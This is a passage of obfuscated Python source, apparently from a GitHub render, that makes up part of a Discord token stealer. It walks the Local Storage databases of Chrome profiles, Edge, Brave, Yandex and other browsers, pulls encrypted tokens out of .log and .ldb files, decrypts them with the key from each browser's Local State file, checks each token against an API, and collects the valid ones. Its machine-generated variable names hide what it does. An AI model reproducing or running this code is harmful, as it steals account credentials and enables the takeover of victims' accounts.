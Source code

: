             'Google Chrome1': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Profile 1\\Local Storage\\leveldb\\',
            'Google Chrome2': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Profile 2\\Local Storage\\leveldb\\',
            'Google Chrome3': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Profile 3\\Local Storage\\leveldb\\',
            'Google Chrome4': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Profile 4\\Local Storage\\leveldb\\',
            'Google Chrome5': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Google\\Chrome\\User Data\\Profile 5\\Local Storage\\leveldb\\',
            'Epic Privacy Browser': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Epic Privacy Browser\\User Data\\Local Storage\\leveldb\\',
            'Microsoft Edge': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Microsoft\\Edge\\User Data\\Default\\Local Storage\\leveldb\\',
            'Uran': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\uCozMedia\\Uran\\User Data\\Default\\Local Storage\\leveldb\\',
            'Yandex': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb\\',
            'Brave': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb\\',
            'Iridium': ZAOAQUAAAWJFAPRXOQBXGRGETLPAFBSHLXNVEXCMFHGXHNOKUQA + '\\Iridium\\User Data\\Default\\Local Storage\\leveldb\\'
        }

        for QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV, HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ in DGRKLIVRNPAHCZLKOOQDLCXQZTIJOMCCIVJUEVUXBUJHWLFZSHPHHDOISNEQEIWEVLRBDOCHNIMTMMPOGQRUK.items():
            if not os.path.exists(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ):
                continue
            EMRCKTYYBMZWOIYEDZEYERAISQDNQIIEJAZKMBKUPMDWWXUOJHZBZPEQEXBDLKLG = QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV.replace(" ", "").lower()
            if "cord" in HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ:
                if not os.path.exists(MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + f'\\{EMRCKTYYBMZWOIYEDZEYERAISQDNQIIEJAZKMBKUPMDWWXUOJHZBZPEQEXBDLKLG}\\Local State'):
                    continue
                for v4r_file_name in os.listdir(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ):
                    if v4r_file_name[-3:] not in ["log", "ldb"]:
                        continue
                    with open(f'{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r_file_name}', errors='ignore') as v4r_file:
                        for v4r_line in v4r_file:
                            for y in re.findall(FNLNEBIUVEGGHWNUQACYYBLAIRZEENKIHXOBNKFNIJSOEJVASHMBQRPFMWQJNBNREYWCVZVMR_enc, v4r_line.strip()):
                                TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK = BLCLBNLJBLQTONCRPRSXJVOYQAFLKFWHJUXFKHFZKYJHIWCMRSGMEAAZRNEPSNGNBLMWROCINFJLACRYHQFNIYIOVal(base64.b64decode(y.split('dQw4w9WgXcQ:')[1]), KMWGPVOWXIWZOCVHLNJJFOQIORRMPGKRSYPFBPPMTWHTQYRLBIPOLABSFWPHGEHHCCMSYSEYIYMIAGZUGS(MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + f'\\{EMRCKTYYBMZWOIYEDZEYERAISQDNQIIEJAZKMBKUPMDWWXUOJHZBZPEQEXBDLKLG}\\Local State'))
                                if PROMQCKSBMSBDMCYQOBFOAPJJQICCAVBMXINVDTOYSEQPAZAGVVIHZIWJHOEEPJGDMSISHGPPUDACNGZYDZCAEKZMAWYYBZRCJE(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK, CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT):
                                    FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE = requests.get(CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT, headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK}).json()['id']
                                    if FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE not in XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA:
                                        ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP.append(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK)
                                        XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA.append(FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE)